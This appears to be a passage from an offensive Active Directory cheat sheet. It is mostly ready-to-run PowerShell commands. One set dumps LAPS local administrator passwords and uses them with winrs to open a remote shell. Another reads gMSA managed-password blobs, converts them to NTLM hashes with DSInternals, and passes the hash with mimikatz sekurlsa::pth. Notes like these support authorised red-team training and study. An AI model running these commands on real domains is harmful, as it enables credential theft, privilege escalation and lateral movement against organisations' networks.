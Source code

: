 Read the password:

```powershell
# PowerView
Get-DomainComputer -SearchBase 'OU distinguished name' # Get a target machine
Get-DomainObject -Identity <targetmachine$> | select -ExpandProperty ms-mcs-admpwd
# Active Directory module
Get-ADComputer -Filter * -SearchBase '<OU distinguished name>' 
Get-ADComputer -Identity <targetmachine> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd
# LAPS module
Get-AdmPwdPassword -ComputerName <targetmachine> # legacy
Get-LapsADPassword -ComputerName <targetmachine> # new

# Shortcuts
Get-DomainComputer | select name,ms-mcs-admpwd # Powerview
Get-ADComputer -Filter * -Properties * | select name,ms-mcs-admpwd # AD Module
```

Use the LAPs password:  

```powershell
winrs -r:<target-server> -u:.\administrator -p:<password> cmd
```

## Domain privesc - gMSA

For over-pass-the-hash, the gMSA username is the account username with 'msDS-GroupManagedServiceAccount'  

```powershell
# A gMSA has object class 'msDS-GroupManagedServiceAccount'. This can be used to find the accounts that can read the managed password.
# Using ADModule
Get-ADServiceAccount -Filter *
# Using PowerView
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'

# The attribute 'msDS-GroupMSAMembership' (PrincipalsAllowedToRetrieveManagedPassword) lists the principals that can read the password blob.
# Read it using ADModule:
Get-ADServiceAccount -Identity <target-user> -Properties * | select PrincipalsAllowedToRetrieveManagedPassword

# Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash:
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1 # (https://github.com/MichaelGrafnetter/DSInternals/blob/master/Src/DSInternals.PowerShell/DSInternals.psd1)
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
# The 'CurrentPassword' attribute in the $decodedpwd contains the clear-text password but cannot be typed
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword

# Passing the NTLM hash of the gMSA, we get privileges of the gMSA.
sekurlsa::pth /user:<target-user> /domain:<domain> /ntlm:0a02c684cc0fa1744195edd1aec43078
# We can access the services and machines (server farms) that the account has access to
```
